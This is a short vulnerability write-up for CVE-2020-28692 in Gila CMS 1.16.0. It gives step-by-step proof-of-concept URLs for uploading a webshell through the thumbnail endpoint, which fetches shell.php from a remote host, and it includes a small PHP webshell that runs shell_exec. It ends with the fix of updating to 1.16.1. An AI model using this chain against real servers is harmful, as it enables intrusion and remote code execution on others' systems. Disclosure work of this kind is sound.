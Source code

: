 ```yaml
---
layout: post
title:  "Gila-CMS-1.16.0-shell-upload (CVE-2020-28692)"
date:   2020-11-17

categories: Writeup, CVE
---
```


Author: jkana

# POC
1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** . For example:

```http://192.168.0.105:1234/gila16/admin/fm?f=tmp/```

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/1.JPG)

3.Click **+File** and create **.htaccess** :

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/2.JPG)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example:
```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/** 

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/3.JPG)

6.Access to webshell and got RCE!

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/4.JPG)

# How to fix

Update to **Gila CMS 1.16.1**

# shell.php
```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```

